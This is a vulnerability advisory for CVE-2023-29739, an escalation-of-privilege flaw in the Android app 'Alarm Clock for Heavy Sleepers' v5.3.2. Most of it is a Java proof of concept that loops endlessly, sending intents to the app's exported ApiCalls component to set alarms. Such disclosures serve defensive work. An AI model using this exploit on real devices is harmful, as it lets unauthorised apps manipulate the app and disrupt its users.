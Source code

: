 ## Escalation of Privileges exists in Alarm Clock for Heavy Sleepers（CVE-2023-29739）

Vendor：Smart Alarm Clock Team(http://amdroidapp.com/)

Affected product：Alarm Clock for Heavy Sleepers(com.amdroidalarmclock.amdroid)

Version：5.3.2

Download link： https://play.google.com/store/apps/details?id=com.amdroidalarmclock.amdroid

Description of the vulnerability for use in the CVE：An issue found in Alarm Clock for Heavy Sleepers v.5.3.2 for Android allows unauthorized apps to cause escalation of privilege attacks by manipulating the component.



poc：

```java
private void attack() {
    while (true) {
        Intent intent = new Intent();
        ComponentName componentName = new ComponentName("com.amdroidalarmclock.amdroid", "com.amdroidalarmclock.amdroid.ApiCalls");
        intent.setComponent(componentName);
        intent.setAction("android.intent.action.SET_ALARM");
        intent.setClassName("com.amdroidalarmclock.amdroid","com.amdroidalarmclock.amdroid.ApiCalls");
        intent.putExtra("android.intent.extra.alarm.HOUR",11);
        intent.putExtra("android.intent.extra.alarm.MINUTES",30);
        intent.putExtra("android.intent.extra.alarm.MESSAGE","this is hack's message!");
        ArrayList<Integer> list=new ArrayList<>();
        list.add(0);
        list.add(1);
        list.add(0);
        list.add(1);
        list.add(0);
        list.add(1);
        list.add(0);
        intent.putIntegerArrayListExtra("android.intent.extra.alarm.DAYS", list);
        try {
            System.out.println("发送数据");
            sendBroadcast(intent);
        } catch (Exception e) {
        }
    }
}
```



